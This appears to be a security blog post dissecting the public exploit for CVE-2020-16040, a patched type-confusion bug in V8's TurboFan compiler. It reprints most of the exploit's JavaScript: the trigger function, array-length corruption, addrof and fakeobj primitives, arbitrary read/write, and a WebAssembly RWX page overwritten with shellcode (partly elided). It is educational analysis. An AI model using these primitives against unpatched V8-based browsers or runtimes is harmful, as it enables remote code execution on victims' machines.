 ```yaml
---
layout: post
title:  "Dissecting a Type Confusion Exploit in Chrome's V8 JavaScript Engine"
categories:
---
```


# Overview
V8 is Google's [JavaScript Engine](https://v8.dev) that runs the Chrome browser, the electron framework, node.js, and much more. This article discusses how attackers use type confusions to gain RCE in the browser sandbox, but does not go into details about the internals of the V8 engine. <br />

This article follows CVE-2020-16040, a type confusion vulnerability with a [public exploit on exploit-db](https://www.exploit-db.com/exploits/49745) by r4j0x00. The Chrome developers released the [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1150649) in March 2021. Since then, V8 exploitation has changed quite a bit, however many of the fundamentals discussed here remain the same. <br />

# Exploit Roadmap 
Below are the following high-level steps to exploit a type confusion vulnerability in V8,
1. Use the vulnerability to corrupt the "length" field of an Array object.
2. Use the corrupted Array object to generate out-of-bounds access primitives on the JS heap.
3. With OOB access, create the *addrof* and *fakeobj* primitives for manipulating JS objects.
4. Use the *addrof* and *fakeobj* functions to create arbitrary read and write functions.
5. Create a RWX segment using WebAssembly.
6. Overwrite the contents of RWX pages with arbitrary read and write functions from step 4. 
7. Pop calculators! 
<br />

Note that one can test this exploit in D8, the command line version of V8. Pre-built binaries of V8 can be found [here](https://commondatastorage.googleapis.com/v8-asan/index.html). This vulnerability was patched in V8 commit reference [71364](https://chromium.googlesource.com/v8/v8/+/ba1b2cc09ab98b51ca3828d29d19ae3b0a7c3a92), so I used version 71363 which can be downloaded [here](https://www.googleapis.com/download/storage/v1/b/v8-asan/o/linux-release%2Fd8-linux-release-v8-component-71363.zip?generation=1606216067630505&alt=media). <br /> 

## Use the vulnerability corrupt the "length" field of an Array object
In the following JS snippet, "foo", contains the vulnerability exploited in this code. The vulnerability is found in V8's optimizing compiler, TurboFan, and involves the improper treating of signed versus unsigned integers. As one can see, the code here is pretty messed up, but notice that the "foo" function returns two arrays `arr` and `cor`. <br />
{% highlight js %} 
function foo(a) {
  var y = 0x7fffffff;

  if (a == NaN) y = NaN;
  if (a) y = -1;

  let z = y + 1;
  z >>= 31;
  z = 0x80000000 - Math.sign(z|1);

  if(a) z = 0;

  var arr = new Array(0-Math.sign(z));
  arr.shift();
  var cor = [1.1, 1.2, 1.3];

  return [arr, cor];
}
{% endhighlight %}

`arr` is a JS Array object that will eventually have a length of -1. The exploit then uses this to corrupt the length of the `cor` array that immediately follows it. Note that in V8, adjacent objects in JavaScript will occupy adjacent memory regions on the JS heap. <br /> 
{% highlight js %}
for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];
{% endhighlight %} 

The above snippet triggers JIT compilation of the "foo" function. JIT compilers, like V8, optimize functions as they run; computerphile as a nice [youtube video](https://www.youtube.com/watch?v=d7KHAVaX_Rs&ab_channel=Computerphile) about how they work. After JIT optimization, the V8 engine makes assumptions based on the input always being `true`. However, it fails to adequately deoptimize the function when the input is `false`. <br />

## Use the corrupted Array object to generate out-of-bounds access primitives on the JS heap
After triggering JIT compilation, the below snippet will created OOB primitives. <br />
{% highlight js %}
const idx = 6;
arr[idx+10] = 0x4242;
{% endhighlight %} 

Here the `idx` variable is a variable that changes from version to version, based on V8's internal memory representation of JS Array objects. This snippet of code uses the `arr` variable to set `cor.length` to 0x4242. Since the V8 engine is not tracking this, it will result in OOB reads and writes on the JS heap. <br />

![D8 command line](/images/v8-exploitation-breakdown/v8-length-screenshot.png)

<br />

## Creating the *addrof* and *fakeobj* functions
The *addrof* and *fakeobj* functions are well-known function in JIT exploitation. For more information, I recommend reading V8 Security lead Samuel Groβ's [phrack.org article](http://phrack.org/issues/70/9.html#article). <br />

{% highlight js %}
function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}
{% endhighlight %} 

These functions use the `ftoi` and `itof` functions which are utility functions from the exploit that convert integers to IEEE 754 double precision values and back. *addrof* will leak the memory address of an arbitrary JS object into the JS runtime. *fakeobj* is a bit more complex, it involves tricking V8 into thinking that any blob of memory allocated by the attacker is a JS object. <br />

For analogies in C, imagine that *addrof* works like the "&" operator, and returns the memory address associated with any variable to the attacker. For *fakeobj*, imagine that the attacker can cast a pointer to a variable to any type that they choose. <br />

## Creating arbitrary read and write functions
The following code will create arbitrary read and write functions, where an attacker can provide any address to read and write memory from. Both of these functions involves corrupting the backing store of `fake`. In V8, JavaScript Arrays have a backing store pointer; it is a memory address where elements in the array are stored in a linear fashion. The code below uses the variable `arr2` to set the backing store of `fake` to an attacker controlled address. This allows the attacker to read and write arbitrary memory by indexing the `fake` array. <br />

{% highlight js %}
var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}
{% endhighlight %} 

## Allocating RWX memory using WebAssembly
Until surprisingly recently, allocating a WebAssembly function in V8 resulted in RWX segments in memory. This is the perfect spot to fit some shellcode. In modern versions of V8, this is no longer the case. Although there are [documented workarounds](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/) to this. However, in this version, no additional steps are required and one can allocate RWX memory directly with the following snippet,
<br />
{% highlight js %}
var wasm_code = new Uint8Array([0,97,115,109,1 ...])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
{% endhighlight %}

Running `cat /proc/$(pidof d8)/maps | grep rwx` will show the RWX memory! 

## Overwrite the contents of the RWX memory with shellcode
In the below snippet, the exploit leaks the address of the RWX memory region from the WebAssembly object from step 5. It will then use the `copy_shellcode` function (omitted) to take the shellcode as integers and write that using the `arbwrite` function. From there, the exploit calls the WebAssembly function `f()` which now contains attacker controlled data. Note that the contents of the wasm_code variable are not important. 

{% highlight js %}
var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [16889928,16843009,1213202689, ...];
copy_shellcode(rwx_page_addr, shellcode);
f();
{% endhighlight %} 

# Conclusion 
The article walks through an exploit in the V8 JavaScript. In practice, this grants an attacker code execution within the browser sandbox. This is often the first stage in a browser exploit chain, followed by a sandbox escape. <br />

As of writing, more recent versions of V8 have introduced new technical hurdles with V8 exploitation. Most notably is the V8 pointer cage (also called the V8 sandbox, not to be confused with the browser sandbox), which limits pointers inside of the JS heap. This makes acquiring arbitrary read and write primitives significantly more difficult in an exploit. <br />

As always, thanks for reading. 

